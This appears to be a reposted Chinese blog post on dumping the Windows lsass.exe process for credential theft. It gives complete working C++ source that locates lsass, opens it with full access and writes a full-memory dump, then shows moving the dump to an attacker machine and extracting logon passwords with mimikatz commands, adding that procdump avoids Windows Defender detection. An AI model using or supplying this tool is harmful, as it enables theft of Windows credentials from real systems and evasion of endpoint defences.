


# 利用windows api dump进程

> 原文：[https://www.zhihuifly.com/t/topic/3461](https://www.zhihuifly.com/t/topic/3461)

# 利用windows api dump进程

## c++源代码

```
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {

DWORD lsassPID = 0;

HANDLE lsassHandle = NULL;

HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

PROCESSENTRY32 processEntry = {};

processEntry.dwSize = sizeof(PROCESSENTRY32);

LPCWSTR processName = L"";

```
if (Process32First(snapshot, &amp;processEntry)) {
    while (_wcsicmp(processName, L"lsass.exe") != 0) {
        Process32Next(snapshot, &amp;processEntry);
        processName = processEntry.szExeFile;
        lsassPID = processEntry.th32ProcessID;
    }
    wcout &lt;&lt; "[+] Got lsass.exe PID: " &lt;&lt; lsassPID &lt;&lt; endl;
}

lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);

if (isDumped) {
    cout &lt;&lt; "[+] lsass dumped successfully!" &lt;&lt; endl;
}

return 0; 
``` `}` 
```

https://github.com/ianxtianxt/windows-api-dump/

## 执行演示

### 执行CreateMiniDump.exe（上面的编译文件）或编译自己的二进制文件

### Lsass.dmp被转储到工作目录

### 让lsass.dmp离线到你的攻击机器上

### 打开mimikatz并加载到转储文件中

### 储存密码

.\createminidump.exe
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords





可以在mimikatz中离线读取


这里有一个pdocdump可以执行相同的操作，并且不会被windows defender标记。